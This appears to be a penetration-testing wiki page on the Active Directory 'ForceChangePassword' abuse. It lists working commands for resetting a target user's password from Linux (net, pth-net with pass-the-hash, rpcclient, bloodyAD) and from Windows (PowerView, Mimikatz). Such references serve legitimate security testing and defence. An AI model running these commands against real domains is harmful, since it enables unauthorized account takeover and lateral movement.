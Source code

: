 ```yaml
---
authors: CravateRouge, ShutdownRepo, sckdev
category: ad
---
```


# ForceChangePassword

This abuse can be carried out when controlling an object that has a `GenericAll`, `AllExtendedRights` or `User-Force-Change-Password` over the target user.

::: tabs

=== UNIX-like

It can also be achieved from UNIX-like system with [net](https://linux.die.net/man/8/net), a tool for the administration of samba and cifs/smb clients. The [pth-toolkit](https://github.com/byt3bl33d3r/pth-toolkit) can also be used to run net commands with [pass-the-hash](../ntlm/pth.md).

```bash
# With net and cleartext credentials (will be prompted)
net rpc password "$TargetUser" -U "$DOMAIN"/"$USER" -S "$DC_HOST"

# With net and cleartext credentials
net rpc password "$TargetUser" -U "$DOMAIN"/"$USER"%"$PASSWORD" -S "$DC_HOST"

# With Pass-the-Hash
pth-net rpc password "$TargetUser" -U "$DOMAIN"/"$USER"%"ffffffffffffffffffffffffffffffff":"$NT_HASH" -S "$DC_HOST"
```

The [rpcclient](https://www.samba.org/samba/docs/current/man-html/rpcclient.1.html) can also be used on UNIX-like systems when the package `samba-common-bin` is missing.

```bash
rpcclient -U $DOMAIN/$ControlledUser $DomainController
rpcclient $> setuserinfo2 $TargetUser 23 $NewPassword
```

Alternatively, it can be achieved using [bloodyAD](https://github.com/CravateRouge/bloodyAD)

```bash
bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" set password "$TargetUser" "$NewPassword"
```


=== Windows

The attacker can change the password of the user. This can be achieved with [Set-DomainUserPassword](https://powersploit.readthedocs.io/en/latest/Recon/Set-DomainUserPassword/) ([PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) module).

```bash
$NewPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
Set-DomainUserPassword -Identity 'TargetUser' -AccountPassword $NewPassword
```

Mimikatz's [`lsadump::setntlm`](https://tools.thehacker.recipes/mimikatz/modules/lsadump/setntlm) can also be used for that purpose.

:::
